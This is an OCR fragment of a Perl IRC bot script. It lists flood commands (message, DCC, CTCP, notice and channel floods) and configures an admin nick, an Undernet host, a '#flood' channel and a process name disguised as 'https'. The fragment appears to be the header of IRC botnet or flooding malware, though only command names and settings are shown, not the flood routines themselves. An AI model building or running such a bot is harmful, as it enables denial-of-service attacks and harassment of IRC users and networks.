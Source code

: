 # -zr @op <who> 

# -zr @deop <who> 

#-----[Flooding Based]----- 

# -zr @msgflood <who> 

# -zr @dccflood <who> 

# -zr @ctcpflood <who> 

# -zr @noticeflood <who> 

# -zr @channelflood 

# -zr @maxiflood <who> 

#################################### 

#################################### 

my $processo = 'https'; 

my $linas_max='10'; 

my $sleep='5'; 

my $cmd=""; 

my $id=""; 

############################################ 

my @adms=("Hun"); 

my @hostauth = ("werwolf96.users.undernet.org");

my @canais=("#flood"); 

my $chanpass = "-zr"; 

##Cron 

$num = int rand(30); 

my $nick = "user" . $num . ""; 

  
